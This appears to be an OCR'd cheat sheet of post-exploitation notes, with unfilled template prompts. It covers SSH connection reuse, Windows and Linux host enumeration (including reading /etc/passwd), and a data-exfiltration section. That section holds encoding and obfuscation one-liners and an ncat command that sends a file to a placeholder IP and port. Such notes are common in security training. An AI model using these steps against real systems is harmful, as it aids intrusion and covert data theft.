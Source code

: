 ```
ControlPath ~/.ssh/controlmasters/%r@%h:%p
ControlMaster auto
ControlPersist 10m
```
# Local Host Enumeration
# User Enumeration
```
Why is this important?
What does it provide?
Windows
net user
Linux
cat /etc/passwd
```
# Process Enumeration
```
Why is this important?
What does it provide?
Windows
tasklist /v
Linux
ps -elf
```
# Service Enumeration
```
Why is this important?
What does it provide?
Windows
tasklist /svc
Linux
chkconfig                   # SysV
systemctl --type=service    # SystemD
```
# Network Connection Enumeration
```
Why is this important?
What does it provide?
Windows
ipconfig /all
Linux
ifconfig -a      # SysV (deprecated)
ip a             # SystemD
```
Data Exfiltration
```
Session Transcript
 ssh <user>@<host> | tee
Obfuscation (Windows)
type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out
certutil -encode <file> encoded.b64
Obfuscation (Linux)
cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt
cat <file>> | base64
Encrypted Transport
scp <source> <destination>
ncat --ssl <ip> <port> < <file>
```